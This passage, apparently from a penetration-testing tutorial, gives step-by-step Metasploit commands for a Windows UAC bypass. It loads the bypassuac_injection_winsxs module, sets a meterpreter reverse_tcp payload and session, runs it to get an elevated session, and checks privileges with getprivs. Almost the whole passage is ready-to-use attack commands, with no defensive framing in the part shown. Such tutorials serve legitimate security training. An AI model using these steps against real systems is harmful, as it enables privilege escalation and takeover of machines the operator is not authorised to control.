 1. We can now load the bypass UAC module by running the following command:

        use module exploit/windows/local/bypassuac_injection_winsxs

1. After loading the module, we will need to configure the module options, this can be done by running the following commands:

        set payload windows/x64/meterpreter/reverse_tcp
        set target Windows x64
        set SESSION <SESSION-ID>

1. After configuring the module options, we can now execute the module by running the following command:

        run

1. If successful, the module will send the meterpreter stage to the target and you should receive an elevated meterpreter session as shown in the following screenshot.

    ![Metasploit elevated meterpreter session](metasploit-elevated-meterpreter-session.png "Metasploit elevated meterpreter session")

1. We can confirm that we have an elevated session by listing out the Windows privileges for our current user, this can be done by running the following command in meterpreter:

        getprivs
